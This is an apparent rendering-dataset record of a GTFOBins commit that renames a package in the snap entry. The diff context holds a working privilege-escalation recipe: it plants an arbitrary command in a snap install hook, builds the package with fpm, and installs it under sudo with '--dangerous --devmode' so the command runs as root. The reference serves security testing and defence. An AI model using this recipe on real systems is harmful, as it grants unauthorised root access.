

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/snap.md, in a window 1280 px wide. Shown: the top 513 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Rename package

````diff
--- a/_gtfobins/snap.md
+++ b/_gtfobins/snap.md
@@ -9,8 +9,8 @@ functions:
         mkdir -p meta/hooks
         printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
         chmod +x meta/hooks/install
-        fpm -n my-snap -s dir -t snap -a all meta
+        fpm -n x -s dir -t snap -a all meta
         ```
       code: |
-        sudo snap install my-snap_1.0_all.snap --dangerous --devmode
+        sudo snap install x_1.0_all.snap --dangerous --devmode
 ---
````
